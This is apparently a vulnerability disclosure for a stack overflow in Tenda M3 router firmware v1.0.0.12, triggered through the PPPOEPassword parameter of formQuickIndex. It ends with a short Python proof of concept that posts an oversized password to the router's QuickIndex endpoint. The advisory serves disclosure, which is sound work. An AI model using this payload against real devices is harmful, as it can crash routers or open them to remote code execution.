


# Tenda M3 formQuickIndex
### Overview
vendor: Tenda

product: M3

version: v1.0.0.12

type: Stack Overflow
### Vulnerability Description
Tenda M3 v1.0.0.12 were discovered to contain a stack overflow via the PPPOEPassword parameter in the formQuickIndex function.

### Vulnerability details
In function formQuickIndex line 15, it reads in a user-provided parameter `PPPOEPassword`. The variable `v8` is passed as a parameter to the `sub_46AE0` function. The `sub_46AE0` function performs loop copy without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.





### POC
```python
import requests

data = {
    "PPPOEPassword": "a"*0x2000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://192.168.0.1/goform/QuickIndex", data=data, cookies=cookies)
print(res.content)
```